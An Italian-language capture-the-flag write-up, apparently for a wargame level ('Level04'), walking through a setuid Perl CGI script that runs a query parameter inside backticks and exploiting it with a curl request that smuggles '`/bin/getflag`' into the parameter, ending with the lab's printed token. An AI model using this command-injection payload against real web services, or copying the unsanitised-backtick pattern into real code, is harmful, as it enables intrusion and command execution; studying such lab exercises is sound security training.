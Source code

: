 # Level04
### 1 passaggio:
Digitando `ls -l level04.pl` abbiamo:
```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
dunque flag04 è proprietario del file

### 2 passaggio:
Aprendo il file possiamo vedere il seguente script cgi in perl:
```perl
     1  #!/usr/bin/perl
     2  # localhost:4747
     3  use CGI qw{param};
     4  print "Content-type: text/html\n\n";
     5  sub x {
     6    $y = $_[0];
     7    print `echo $y 2>&1`;
     8  }
     9  x(param("x"));
```
Nella seconda riga ci suggerisce che sulla porta 4747 abbiamo qualcosa in ascolto e
lo script stampa il parametro `x`

### 3 passaggio:
Dunque è bastato semplicemente una richiesta con il comando `curl`
```
curl localhost:4747/level04.pl?x='`/bin/getflag`'
```
dove l'apice ` rende eseguibile ciò che verrà stampato e abbiamo la seguente stampa:
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
